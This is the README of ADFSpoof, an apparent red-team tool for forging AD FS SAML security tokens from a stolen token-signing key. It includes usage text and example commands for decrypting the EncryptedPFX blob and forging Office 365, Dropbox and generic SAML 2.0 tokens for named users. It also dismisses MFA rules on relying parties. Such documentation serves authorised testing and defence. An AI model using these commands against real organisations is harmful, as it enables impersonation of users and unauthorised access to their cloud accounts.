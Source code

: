 # ADFSpoof

A python tool to forge AD FS security tokens.

Created by Doug Bienstock [(@doughsec)](https://twitter.com/doughsec) while at Mandiant FireEye.

## Detailed Description

ADFSpoof has two main functions:
1. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable key/cert pair for token signing.
2. Given a signing key, produce a signed security token that can be used to access a federated application.

This tool is meant to be used in conjunction with ADFSDump. ADFSDump runs on an AD FS server and outputs important information that you will need to use ADFSpoof.

If you are confused by the above, you might want to read up on AD FS first. For more information on AD FS spoofing I will post a link to my TROOPERS 19 talk and slides when they are released.

## Installation

ADFSpoof is written in Python 3.

~~ADFSpoof requires the installation of a custom fork of the Python Cryptography package, available [here](https://github.com/dmb2168/cryptography). Microsoft did not exactly follow the RFC for Key Deriviation :wink:, so a fork of the package was needed.~~ The modified key derivation function has been ported to work with the newer versions of cryptography lib.

All requirements are captured in the repo's requirements.txt.

`pip install -r requirements.txt`

## Usage

```
usage: ADFSpoof.py [-h] (-b BLOB BLOB | -c CERT) [-p PASSWORD] [-v VERBOSE]
                   [--assertionid ASSERTIONID] [--responseid RESPONSEID]
                   [-s SERVER] [-a ALGORITHM] [-d DIGEST] [-o OUTPUT]
                   {o365,dropbox,saml2,dump} ...

optional arguments:
  -h, --help            show this help message and exit
  -b BLOB BLOB, --blob BLOB BLOB
                        Encrypted PFX blob and decryption key
  -c CERT, --cert CERT  AD FS Signing Certificate
  -p PASSWORD, --password PASSWORD
                        AD FS Signing Certificate Password
  -v VERBOSE, --verbose VERBOSE
                        Verbose Output
  --assertionid ASSERTIONID
                        AssertionID string. Defaults to a random string
  --responseid RESPONSEID
                        The Response ID. Defaults to random string
  -s SERVER, --server SERVER
                        Identifier for the federation service. Usually the
                        fqdn of the server. e.g. sts.example.com DO NOT
                        include HTTPS://
  -a ALGORITHM, --algorithm ALGORITHM
                        SAML signing algorithm to use
  -d DIGEST, --digest DIGEST
                        SAML digest algorithm to use
  -o OUTPUT, --output OUTPUT
                        Write generated token to the supplied filepath

modules:
  loaded modules

  {o365,dropbox,saml2,dump}
                        additional help
```
### Cryptographic Material

All ADFSpoof functionality requires cryptographic material for the AD FS signing key. This can be supplied in one of two ways:

* `-b BLOB BLOB`: Supply the EncryptedPFX binary blob (base64 decode what is pulled out of the configuration database) and the DKM key from Active directory. Order matters!
* `-c CERT`: Provide a PKCS12-formatted file for the signing key and certificate. If it is password protected supply a password with `-p`. The overall file password and private key password must be the same.


### Global Options

* `-s SERVER`: The AD FS service identifier. Required when using any module that generates a security token. This goes into the security token to let the federated application know who generated it.
* `-o FILEPATH`: Outputs the generated token to disk instead of printing it.
* `--assertionid` and `--responseid`: If you wish to supply custom attribute values for SAML AssertionID and ResponseID. Defaults to random strings.
* `-d DIGEST`: Set the MAC digest algorithm. Defaults to SHA256.
* `-a ALGORITHM`: Set the signature algorithm. Defaults to RSA-SHA256.


### Command Modules

ADFSpoof is built modularly with easy expansion in mind. Currently, it comes preloaded with four command modules that support different functionality.

Each module encapsulates the SAML attributes and values necessary to generate a valid security token for a specific token type or federated application. *Note that for the applications specific modules, the template represents the generic installation. Customization may be required for organizations that have messed with the defaults.*

#### o365

Generates a forged security token to access Microsoft Office 365. This is a SAML 1.1 token.

* `--upn UPN`: The universal principal name of the user to generate a token for. Get this from AD.
* `--objectguid`: The Object GUID of the user to generate a token for. Get this from AD. Include the curly braces.

#### Dropbox

Generats a forged security token to access Dropbox. This is a SAML 2.0 token.

* `--email EMAIL`: The email address of the user to generate a token for.
* `--accountname ACCOUNT`: The SamAccountName of the user to generate a token for.

#### SAML2

A command that encapsulates generating a generic SAML 2.0 security token. Use this module to generate security tokens for arbitrary federated applications that are using SAML 2.0. By reading the data returned by ADFSDump you should be able to generate a valid token for just about any federated application using this module.

* `--endpoint ENDPOINT`: The recipient of the seucrity token. This should be a full URL.
* `--nameidformat URN`: The value for the 'Format' attribute of the NameIdentifier tag. This should be a URN.
* `--nameid NAMEID`: The NameIdentifier attribute value.
* `--rpidentifier IDENTIFIER`: The Identifier of the relying party that is receiving the token.
* `--assertions ASSERTIONS`: The assertions that the relying party is expecting. Use the claim rules output by ADFSDump to ascertain this. Should be a single-line (do not include newlines) XML string.
* `--config FILEPATH`: A filepath to a JSON file containing the above arguments. Optional - use this if you don't want to supply everything over the command line.

#### Dump

Helper command that will take the supplied EncryptedPFX blob and DKM key from `-b`, decrypt the blob, and output the PFX file to disk. Use this to save the PFX for later.

`--path PATH`: The filepath to save the generated PFX.

### Examples

#### Decrypt the EncryptedPFX and write to disk
`python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump`

#### Generate a security token for Office365

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759}`

#### Generate a SAML 2.0 token for some app

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com saml2 --endpoint https://my.app.com/access/saml --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid robin@doughcorp.com --rpidentifier myapp --assertions <Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"><AttributeValue>robin@doughcorp.com</AttributeValue></Attribute>`

### Reading Issuance Authorization Rules

More coming soon! As a tl;dr for SAML 2.0 each issuance rule (with the exception of the nameid rule) is going to be translated into a SAML assertion. SAML assertions are <Attribute><AttributeValue></AttributeValue><Attribute> tags. The Attribute tag must have an attribute called "Name" that value of which is the claim type. The claim value goes inside the <AttributeValue> tags.
  
  There is a little more nuance which I hope to discuss in a wiki page soon, but that is the basic idea. Relying Parties may have "StrongAuth" rules and MFA requirements, but usually we don't care about those.



